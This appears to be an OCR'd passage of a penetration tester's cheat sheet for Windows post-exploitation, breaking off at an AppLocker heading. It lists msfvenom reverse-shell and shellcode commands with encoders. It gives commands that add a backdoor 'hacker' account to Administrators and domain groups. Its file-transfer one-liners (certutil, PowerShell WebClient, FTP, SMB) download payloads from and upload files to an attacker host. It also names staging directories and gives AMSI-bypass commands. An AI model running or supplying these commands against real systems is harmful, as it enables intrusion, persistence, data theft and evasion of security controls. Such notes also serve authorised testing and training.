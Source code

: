         *   Executable Upload
            *   `metash()`
            *   IIS                    → ASP / ASPX
            *   CMD               → EXE / DLL / MSI / PS1
            *   PHP                → `-p php/meterpreter/reverse_tcp -f raw`
            *   WAR               → `-p java/shell_reverse_tcp -f war`
            *   JSP                  → `-p java/shell_reverse_tcp -f raw`
        *   Admin Hijacking
            *   `msfvenom -p windows/[x64/empty]/exec CMD="net user hacker pass123 /add" -f [FORMAT]`
            *   `msfvenom -p windows/[x64/empty]/exec CMD="net localgroup Administrators hacker /add" -f [FORMAT]`
            *   `msfvenom -p windows/[x64/empty]/exec CMD="net group [DOMAIN_GROUP] hacker /add" -f [FORMAT]`
            *   Remote Access → Add `hacker` to RDP / WinRM Groups
        *   BOF Shellcode
            *   `msfvenom -a [x86/x64] -p [SHELL_TYPE] -f [python/c] -b [BAD_CHARS] [-e [32_BIT_ENCODER] -i 3] --smallest`
            *   Encoders                → `x86/shikata_ga_nai` / `x86/unicode_m`
            *   Extra Options        → `BufferRegister=EAX` / `Exitfunc=thread`
            *   Default Badchars → `\x00\x0a\x0d`
            *   Auto-Migration
                *   Useful when Process Crashes
                *   `echo "run post/windows/manage/migrate" > ~/automigrate.rc`
                *   In `multi/handler` MSF Panel → `set AutoRunScript multi_console_command -r ~/automigrate.rc`
*   File Transfers
    *   Writable Directories
        *   `c:\windows\temp\`
        *   `c:\windows\tracing\`
        *   `C:\windows\tasks\`
        *   `c\windows\system32\spool\drivers\color\`
    *   SMB / WebDAV
        *   `smbserv()` / `webdavserv()`
        *   `net use X: \\[KALI_IP]\Share [/user:hacker password]` → Transfer Data From `X:\`
        *   `\\[KALI_IP]:8000\DavWWWRoot\`
    *   HTTP
        *   `httpserv()`
        *   `certutil -urlcache -split -f "http://[KALI_IP]:8888/[SRC]" "[DEST]"` → [LOLBAS](https://lolbas-project.github.io/#)
        *   Powershell
            *   `powershell -c (New-Object System.Net.WebClient).DownloadFile('http://[KALI_IP]:8888/[SRC]', '[DEST]')`
            *   `powershell wget http://[KALI_IP]:8888/[SRC] -o [DEST]`
            *   To Kali → `. .\PSUpload.ps1` + `Invoke-FileUpload -Uri http://[KALI_IP]:8888/[DEST] -File [SRC]`
    *   FTP
        *   `ftpserv()`
        *   `powershell -c (New-Object Net.WebClient).DownloadFile('ftp://[KALI_IP]:2121/[SRC]', '[DEST]')`
        *   To Kali → `powershell -c (New-Object Net.WebClient).UploadFile('ftp://[KALI_IP]:2121/[DEST]', '[SRC]')`
    *   B64
        *   `cat [SRC] | base64 -w 0;echo` → `[IO.File]::WriteAllBytes("[DEST]", [Convert]::FromBase64String("[B64_DATA]"));`
        *   To Kali → `[Convert]::ToBase64String((Get-Content -path "[SRC]" -Encoding byte))` → `echo [B64] | base64 -d > [DEST]`   
    *   RDP
        *   `xfreerdp /v:[TARGET] /d:[DOM] /u:[USER] /p:[PASS] /drive:linux,[FOLDER_TO_SHARE]`
        *   Shared Access → `C:\[FOLDER_TO_SHARE]`
*   Evasion
    *   [Citrix / Kiosk Breakouts](https://academy.hackthebox.com/module/67/section/626)
    *   Powershell
        *   AMSI
            *   NXC Local Admin → `nxc smb [IP] [AUTH_STRING] -X '[PS_COMMAND]' --amsi-bypass [PAYLOAD_FILE]`
            *   [Payloads](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
            *   [One-Liners](https://amsi.fail/)
        *   AppLocker